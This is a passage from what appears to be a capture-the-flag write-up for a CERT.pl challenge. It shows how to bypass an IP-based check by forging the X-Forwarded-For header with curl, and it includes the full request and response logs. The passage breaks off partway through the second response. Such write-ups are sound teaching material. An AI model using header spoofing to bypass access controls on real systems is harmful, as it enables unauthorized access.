 Application uses various HTTP request headers to determine an IP address. We can control only one of them: ```$_SERVER['HTTP_X_FORWARDED_FOR']```. So if we set ```HTTP_X_FORWARDED_FOR``` in request headers to IP address which comes from defined ranges, we will pass the first step of verification.

We can use ```curl``` for this:

```
$ curl --verbose --user-agent "hackerone.com/bl4de" --header "X-Forwarded-For: 175.45.176.100" http://ecsm2017.cert.pl:6044/index.php/instructions

*   Trying 136.243.148.95...
* TCP_NODELAY set
* Connected to ecsm2017.cert.pl (136.243.148.95) port 6044 (#0)
> GET /index.php/instructions HTTP/1.1
> Host: ecsm2017.cert.pl:6044
> User-Agent: hackerone.com/bl4de
> Accept: */*
> X-Forwarded-For: 175.45.176.100
>
* HTTP 1.0, assume close after body
< HTTP/1.0 401 Unauthorized
< Date: Thu, 16 Nov 2017 23:10:40 GMT
< Server: Apache
< WWW-Authenticate: Basic realm="LOGIN"
< Content-Length: 244
< Connection: close
< Content-Type: text/html; charset=UTF-8
<
<html>
<head>
<style>
body { background-color: #AA0000; color: white; font-size: 300%;}
</style>
</head>
<body>

<nav>
    <a href="/index.php/home">집</a>
    |
    <a href="/index.php/instructions">명령</a>
</nav>

<hr />


</body>
* Closing connection 0
</html>
```

Let's compare above response with request from IP not belongs to one of ranges:

```
$ curl --verbose --user-agent "hackerone.com/bl4de" http://ecsm2017.cert.pl:6044/index.php/instructions
*   Trying 136.243.148.95...
* TCP_NODELAY set
* Connected to ecsm2017.cert.pl (136.243.148.95) port 6044 (#0)
> GET /index.php/instructions HTTP/1.1
> Host: ecsm2017.cert.pl:6044
> User-Agent: hackerone.com/bl4de
> Accept: */*
>
< HTTP/1.1 200 OK
< Date: Thu, 16 Nov 2017 23:11:59 GMT
< Server: Apache
```